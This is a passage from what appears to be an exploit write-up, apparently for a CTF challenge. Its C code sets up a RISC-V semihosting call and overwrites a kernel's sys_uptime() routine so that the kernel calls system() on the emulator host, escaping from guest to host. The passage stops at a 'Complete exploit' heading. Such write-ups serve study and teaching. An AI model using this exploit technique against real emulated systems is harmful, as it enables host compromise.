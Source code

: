 Now we can finally set up the semihosting call as follows:

```c
static inline int __attribute__((always_inline)) semihost_call(int num, uint64 args) {
 register int val asm ("a0") = num;
 register uint64 pargs asm ("a1") = args;

 asm volatile (
  ".option push\n"
  ".option norvc\n"
  ".align 4\n"
  "slli x0, x0, 0x1f\n"
  "ebreak\n"
  "srai x0, x0, 0x7\n"
  ".option pop\n"
  : "=r" (val)
  : "0" (val), "r" (pargs)
  : "memory"
 );

 return val;
}

extern char expl_end[];
static void expl(void) {
 // Call system() on the host
 semihost_call(SEMIHOST_SYS_SYSTEM, semihost_args_pa);

 // Label for memcpy in main()
 asm volatile (
  ".globl expl_end\n"
  "expl_end:"
 );
}
```

And finally, back in our main, overwrite `sys_uptime()` with the above code and
call it:

```c
int main(void) {
 // ...

 // Replace sys_uptime with expl() code
 memcpy(sys_uptime, &expl, (uint64)expl_end - (uint64)expl);
 // Get kernel ACE
 uptime();

 return 0;
}
```

### Complete exploit

